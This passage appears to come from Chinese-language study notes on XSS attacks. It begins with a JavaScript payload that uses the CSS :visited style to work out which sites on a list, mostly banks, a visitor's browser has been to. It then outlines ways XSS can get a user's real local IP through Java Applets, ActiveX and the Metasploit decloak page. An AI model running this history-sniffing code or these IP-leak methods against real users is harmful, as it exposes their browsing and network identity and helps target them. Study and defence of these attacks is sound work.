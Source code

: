                     "http://www.statefarm.com/",
                    "http://www.usbank.com/",
                    "http://www.wachovia.com/",
                    "http://www.wamu.com/",
                    "http://www.wellsfargo.com/",
                    "http://www.whitehatsec.com/home/index.html",
                    "http://www.wikipedia.org/",
                    "http://www.xanga.com/",
                    "http://www.yahoo.com/",
                    "http://www2.blogger.com/home",
                    "https://banking.wellsfargo.com/",
                    "https://commerce.blackhat.com/",


                  ];

                  /* Loop through each URL */
                  for (var i = 0; i < websites.length; i++) {

                    /* create the new anchor tag with the appropriate URL information */
                    var link = document.createElement("a");
                    link.id = "id" + i;
                    link.href = websites[i];
                    link.innerHTML = websites[i];

                    /* create a custom style tag for the specific link. Set the CSS visited selector to a known value, in this case red */
                    document.write('<style>');
                    document.write('#id' + i + ":visited {color: #FF0000;}");
                    document.write('</style>');

                    /* quickly add and remove the link from the DOM with enough time to save the visible computed color. */
                    document.body.appendChild(link);
                    var color = document.defaultView.getComputedStyle(link,null).getPropertyValue("color");
                    document.body.removeChild(link);

                    /* check to see if the link has been visited if the computed color is red */
                    if (color == "rgb(255, 0, 0)") { // visited

                      /* add the link to the visited list */
                      var item = document.createElement('li');
                      item.appendChild(link);
                      document.getElementById('visited').appendChild(item);

                    } else { // not visited

                      /* add the link to the not visited list */
                      var item = document.createElement('li');
                      item.appendChild(link);
                      document.getElementById('notvisited').appendChild(item);

                    } // end visited color check if

                  } // end URL loop
                  // -->
                </script> 
                ```
            + 获取用户的真实IP
                * 用户使用了代理，或者在局域网中隐藏在NAT后面。网站看到的客户端IP地址，是内网的出口IP地址，而并非用户电脑真实的本地IP地址。
                * JavaScript本身并没有提供获取本地IP地址的能力
                    - 借助第三方软件
                        + Metasploit引擎曾展示过一个 [强大的测试页面](http://decloak.net/decloak.html) ，综合了Java Applet、Flash、iTunes、Office Word、QuickTime等第三方软件的功能，抓取用户的本地信息
                        + 除了Java之外，一些ActiveX控件可能也会提供接口查询本地IP地址。
                        + 客户端安装了Java环境（JRE），那么XSS就可以通过调用Java Applet的接口获取客户端的本地IP地址。
                            * 需要攻击者写一个Java Class，嵌入到当前页面中
                            * XSS攻击框架“Attack API”中
                                - 获取本地IP